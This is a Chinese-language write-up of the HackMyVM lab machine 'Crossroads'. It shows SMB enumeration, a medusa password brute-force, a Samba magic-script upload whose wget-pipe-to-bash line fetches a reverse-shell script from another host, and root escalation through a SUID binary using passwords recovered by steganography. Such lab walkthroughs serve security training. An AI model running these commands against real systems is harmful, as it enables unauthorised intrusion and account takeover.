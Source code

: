 # Crossroads

2024-11-09 https://hackmyvm.eu/machines/machine.php?vm=Crossroads

## IP

192.168.5.40

## Scan

```
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

先看 445 smb，发现共享目录 smbshare，但是不能访问。

访问 80 web，robotx.txt 中提示 /crossroads.png，是一个图片

http://192.168.5.40/note.txt 中提示：

```
just find three kings of blues
then move to the crossroads
-------------------------------
-abuzerkomurcu
```

提示出一个用户名，还是什么都没找到，在看上面 smb 把，使用 enum4linux -a 192.168.5.40 发现了一个用户名：albert，使用大字典进行爆破，发现密码：

```
medusa -u albert -P /usr/share/wordlists/rockyou.txt -M smbnt  -h 192.168.5.40 -v 4

User: albert Password: bradley1
```

使用找到的密码登陆 smb：

```
smbclient //192.168.5.40/smbshare/ -U albert
```

进入后发现只有一个文件 smb.conf 查看其内容：

```
path = /home/albert/smbshare
valid users = albert
browsable = yes
writable = yes
read only = no
magic script = smbscript.sh
guest ok = no
```

发现有写权限，并且配置了 smbscript.sh 可以将反弹的 shell 写入到 smbscript.sh 中，上传到 smb 时就会得到反弹的 shell：

```
#!/bin/bash

wget -q -O - http://192.168.5.3/5-3/8888.sh|bash
```

得到反弹的 shell 后，找到了 user flag：

```
albert@crossroads:/home/albert$ cat user.txt
912D12370BBCEA67BF28B03BCB9AA13F
```

寻找提升至 root 的路径，home 目录下发现 suid 程序 beroot ，回传至 kali 进行逆向分析：

```
undefined8 main(void)
{
    setuid(0);
    system("/bin/bash /root/beroot.sh");
    return 0;
}
```

但是没有权限读取 /root/beroot.sh ，运行后输入的密码也不知道是什么，发现 home 目录下也有一个 crossroads.png 图片，但是与/var/www/html 中的那个图片不同，多了 0.5M，下载下来进行隐写分析,由于是 png 格式，所以使用 zsteg：

```
zsteg 1.png

"lakers1\ngirls\nbob123\nbabypink\n12369874\ntiago\nshanna\nmonroe\nleilani\nlarry\nkontol\nhogwarts\nasakapa\nneopets\nmeowmeow\nloveit\nkipper\nilovedan\n313131\ntrunks\nplayboy123\nmyhoney\njustdoit\ngutierrez\nelijah1\nbeaver\nmy2kids\nmendez\nmaximo\nloveforever\nkitten1\njonalyn\ngu"
```

上面一串字符，看着像是密码，将其保存到目标机器上的 pass 文本文件中，然后执行下面的脚本尝试运行 beroot：

```
for i in $(cat pass);do echo $i|./beroot;done
```

但是没成功，后来找到了另一个隐写软件进行分析：

```
stegoveritas crossroads1.png
```

在生成的 result 文件夹中进入 keeper 文件夹，其中有两个文件的内容是一样的，其他文件都是 FF 文件 with very long lines (65536)，无用：

```
1731158767.925052-a354c0efdf9c7b676c8fa89f9edf8dfe: ISO-8859 text   <-------
1731158771.4351501-48c3cf22e63106478c6af35249afbfe9: ISO-8859 text, with very long lines (65536), with no line terminators
1731158772.0008967-844176c52c0f1e08015ca814f9c752fc: ISO-8859 text, with very long lines (65536), with no line terminators
1731158772.1984549-cd2835fe5d6eaf972582c1333dd59971: ISO-8859 text, with very long lines (65536), with no line terminators
1731158772.4797788-5da361d37ce31196adc876c7e0426b0e: ISO-8859 text, with very long lines (65536), with no line terminators
1731158772.7933688-e99a5bc84a6dd46c673945fa5bc8fb7c: ISO-8859 text, with very long lines (65536), with no line terminators
1731158772.980351-d712bcfe0eae3bfc69f67aa2beefe2e3: ISO-8859 text   <-------
1731158773.2024136-ff2a0567b731da50c4321c8adc5eb29c: ISO-8859 text, with very long lines (65536), with no line terminators
1731158773.7935462-b58049ebf5394e690139c3ebaab5b081: ISO-8859 text, with very long lines (65536), with no line terminators
1731158774.2357607-9ec0907aab6a8c5b5c6f41a3903d92a5: ISO-8859 text, with very long lines (65536), with no line terminators
```

将其拷贝到目标机器上，再次运行上面的脚本，找到了 root 的密码：

```
albert@crossroads:/home/albert$ cat rootcreds
root
___drifting___
```

最终获得了 root flag：

```
root@crossroads:~# cat root.txt
876F96716C3606B09A89F0FA3C1D52EB
```
